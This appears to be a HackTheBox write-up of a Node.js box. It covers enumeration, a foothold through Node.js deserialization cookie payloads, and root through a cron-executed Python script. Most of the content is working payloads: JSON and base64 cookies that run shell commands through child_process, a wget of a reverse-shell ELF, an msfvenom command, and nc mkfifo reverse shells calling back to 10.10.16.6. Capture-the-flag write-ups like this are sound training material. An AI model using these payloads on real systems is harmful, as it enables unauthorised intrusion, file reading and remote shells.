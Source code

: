 ### Summary
It's an old box, almost 6 years. So despite it being labelled as a medium box, actually an easy one.


### Enum
1. rustscan port 3000 opening
2. Nmap or autorecon found its NodeJS
3. Go to the webpage, refresh get the hint of SSTI (I found out that I was wrong after hacked in, actually NodeJS Deserialization)
4. Hacktricks' one just working

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jade-nodejs

```txt
{"username":"admin","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}"}

#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}

eyJ1c2VybmFtZSI6ImFkbWluIiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6Intyb290LnByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuc3Bhd25TeW5jKCdjYXQnLCBbJy9ldGMvcGFzc3dkJ10pLnN0ZG91dH0ifQ%3d%3d
```

### Foothold
```txt
{"username":"admin","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"{root.process.mainModule.require('child_process').spawnSync('ls', ['-a /home/']).stdout}"}

{"username":"admin","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"{root.process.mainModule.require('child_process').spawnSync('ls', ['-alh'], ['/home/sun']).stdout}"}

eyJ1c2VybmFtZSI6ImFkbWluIiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6Intyb290LnByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuc3Bhd25TeW5jKCdscycsIFsnLWFsaCddLCBbJy9ob21lL3N1biddKS5zdGRvdXR9In0%3D
```
It doesn't have an ssh folder. So let's go normal reverse shell. e.g.

https://github.com/A1vinSmith/Cloud-Hacking/tree/main/HackTheBox/Epsilon#ssti-order

```txt cyberchef
{"username":"admin","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"{root.process.mainModule.require('child_process').spawnSync('wget', ['http://10.10.16.6/reverse.elf']).stdout}"}

eyJ1c2VybmFtZSI6ImFkbWluIiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6Intyb290LnByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuc3Bhd25TeW5jKCd3Z2V0JywgWydodHRwOi8vMTAuMTAuMTYuNiddKS5zdGRvdXR9In0%3D

{"username":"admin","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"{root.process.mainModule.require('child_process').spawnSync('chmod', ['+x'], ['reverse.elf']).stdout}"}

{"username":"admin","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"{root.process.mainModule.require('child_process').spawnSync('ls', ['-lh']).stdout}"}
```

```
❯ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.6 LPORT=3000 -f elf -o reverse.elf
...
❯ ls -lh
-rw-r--r-- 1 kali kali  194 Feb  9 16:23  reverse.elf
```

I was being silly. I should just use `require('child_process').exec('nc -e bash 10.10.16.6 3000')` from https://www.revshells.com/

working payload
```txt cyberchef
{"username":"admin","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"{root.process.mainModule.require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.6 3000 >/tmp/f').stdout}"}
```

It did pop up a shell. But I just run reverse.elf again to get another one since it's better.

### Enum for root
It's a serialised vuln rather than SSTI.

pspy waiting up to 5 minutes
```txt
2023/02/08 22:49:32 CMD: UID=0    PID=1      | /sbin/init splash 
2023/02/08 22:50:02 CMD: UID=0    PID=7726   | /usr/sbin/CRON -f 
2023/02/08 22:50:02 CMD: UID=0    PID=7728   | /bin/sh -c python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py                                                  
2023/02/08 22:50:02 CMD: UID=0    PID=7727   | /bin/sh -c python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py                                                  
2023/02/08 22:50:02 CMD: UID=0    PID=7729   | 
```
### Root
write into script.py
```py payload
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.6 443 >/tmp/f")
```
